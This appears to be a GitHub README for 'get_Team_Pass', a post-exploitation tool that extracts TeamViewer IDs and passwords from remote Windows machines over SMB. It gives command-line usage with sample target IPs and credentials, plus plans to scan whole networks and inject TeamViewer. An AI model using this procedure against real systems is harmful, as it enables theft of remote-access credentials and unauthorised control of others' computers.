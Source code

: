# get_Team_Pass

Get teamviewer's ID and password from a remote computer in the LAN

This program gets teamviewer's ID and password from a remote
computer in the LAN. 

Most useful for postexploitation or sysadmins

Tested on windows 7 and windows 10 x86 and x64

# Prerequisites

You must have valid credentials on the remote computer
Port 445 must be accesible on target machine

# Execution examples:

hook.exe must be in same folder as get_Team_Pass.exe

 		get_Team_Pass.exe -h for printing the help
    get_Team_Pass.exe -t [targetIp] -u [Username] -p [UsernamePassword] -d [usernameDomain]  # -d parameter is optional
 		get_Team_Pass.exe -t 192.168.175.136 -u administrator -p Password2018
 		get_Team_Pass.exe -t 192.168.175.136 -u administrator -p Password2018 -d domain

# Execution video
https://goo.gl/VhWF4g 

# Blog
https://kr1shn4murt1.blogspot.com/2018/12/obtener-el-id-y-password-de-teamviewer.html 
    
# Sha-256 checksums of files

Algorithm       Hash                                                                   File
---------       ----                                                                   ----
SHA256          28F71132305CFA45F4335FA8F9E3ADE52CC9E3339AECDCA795FBD5EA51894351       get_Team_Pass.exe
SHA256          57F62D0CB5656ED2D79DC16C25A9B0D3AACC307D945CED5B0F1CAA1F563735C1       hook.exe

# Authors

@kr1shn4murt1
@t1gr385
kronux.com.co
    
# TODO

Release the source code in a few days, meanwhile feel free to reverse it
Reduce the final size of the compiled files
Add more exception handling
Add network range capabilities to check all computers in a lan
In the future if teamviewer is not found in the remote machine, inject it
Add linux support


